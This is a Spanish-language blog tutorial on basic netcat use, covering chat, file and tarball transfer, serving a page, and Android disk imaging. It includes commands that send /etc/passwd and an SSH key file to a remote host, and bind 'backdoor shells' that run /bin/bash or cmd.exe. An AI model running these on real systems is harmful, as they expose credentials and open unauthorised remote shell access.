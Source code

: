 ```yaml
---
layout: post
title:  Uso de netcat
excerpt: Uso básico de netcat
date:   2015-08-06
modified: 2016-06-10
categories: blog
comments: true
share: true
tags: [netcat, nc]
---
```

## netcat

Netcat es una utilidad que permite el envío y recepción de datos vía TCP/UDP desde la consola. Inicialmente desarrollada para Unix, se ha portado al menos a Windows y OS X. Hay varios _forks_ con distintas capacidades; en resumen, está en todas partes y sirve para... muchas cositas.

## Sintaxis

De la versión instalada por defecto en Debian Jessie:

```shell
root@jessie:~# nc -h
[v1.10-41]
connect to somewhere:	nc [-options] hostname port[s] [ports] ...
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-r			randomize local and remote ports
	-q secs			quit after EOF on stdin and delay of secs
	-s addr			local source address
	-T tos			set Type Of Service
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-C			Send CRLF as line-ending
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```

Con las opciones mínimas, `netcat` abrirá una conexión TCP (UDP si se utiliza la opción `-u`) al host y puerto indicado. Tened en cuenta que, en general, `nc` y `netcat` son alias del mismo comando (vamos, que se puede usar uno u otro indistintamente).

## Comunicación a través de netcat

Uno de los usos más habituales es el establecimiento de conexiones entre dos sistemas -dos _netcats_- en modo cliente-servidor. Para ello, tenemos que hacer escuchar a una máquina (opción -l) en el puerto pertinente mientras enviamos datos desde la otra.

Por ejemplo, nos ponemos a escuchar en el puerto 8090...

```shell
root@rxhost-a# netcat -l -p 8090
```

...y transmitimos desde otro sistema a ese puerto:

```shell
root@txhost-b# nc rxhost-a 8090
```

Si ahora escribimos algo en la consola de txhost-a, aparecerá en la de rxhost-b. Muy bien, pero la gracia está en que esto permite enviar ficheros. Por ejemplo, supongamos que queremos transferir el contenido de un fichero arbitrario desde txhost-b a rxhost-a. Pues haremos lo siguiente en el host donde lo vamos a recibir:

```shell
root@rxhost-a# netcat -l -p 8090 > recibido.txt
```

y lo transmitimos:

```shell
root@txhost-b# netcat rxhost-a 8090 < /etc/passwd
```

Utilizando _pipes_ podremos hacer cosas interesantes, como enviar ficheros o directorios completos en un _tarball_:

```shell
root@rxhost-a# netcat -l -p 8090 | tar zxvf -
```

```shell
root@txhost-b# tar -czf - * | netcat rxhost-a 8090
```

Otra forma es utilizando `dd`, que permite enviar no ya ficheros, sino dispositivos de bloque enteros. Por ejemplo, una adquisición forense de un disco, un backup bit a bit...

```shell
root@rxhost-a# netcat -l -p 8090 >id_rsa.pub
```

```shell
root@txhost-b# dd if=.ssh/id_rsa.pub | nc rxhost-a 8090
```

Se puede servir un fichero vía "web":

```shell
root@hosta:~# nc -l -p 80 <index.html
GET / HTTP/1.1
Host: 192.168.56.100
User-Agent: curl/7.49.1
Accept: */*
```

Y, en el otro extemo recibirlo:

```
user@hostb:~$ curl 192.168.56.100:80
<h1>Hola, mundo!</h1>
```

Otro clásico: _backdoor shells_

```shell
user@host-a:~$ nc -l -p 8090 -e /bin/bash
```

¡También en Windows!

```shell
c:\> nc -l -p 8090 -e cmd.exe
```

En el sistema remoto:

```shell
user@host-a:~$ nc host-a -p 8090
hostname
host-b
```

Más adelante añadiré otro post con cosas sobre shells inversas...

Un poquito más complejo: extracción del disco completo de un dispositivo Android. Partimos de un dispositivo _rooteado_ (necesitaremos acceder al disco en modo bloque con `dd`) y conectado vía USB con `adb`. El dispositivo móvil tiene `busybox` instalado.

Primero, haremos forward de un socket mediante adb usando un puerto arbitrario:

```shell
santoku@santoku:~$ adb forward tcp:8888 tcp:8888
santoku@santoku:~$ nc 127.0.0.1 8888 > dd.img
```

En el dispositivo (vía shell):

```shell
santoku@santoku:~$ adb shell
shell@android:/ $ su
shell@android:/ # dd if=/dev/block/mmcblk0 | busybox nc -l -p 8888
```

Y a esperar que se transfiera...
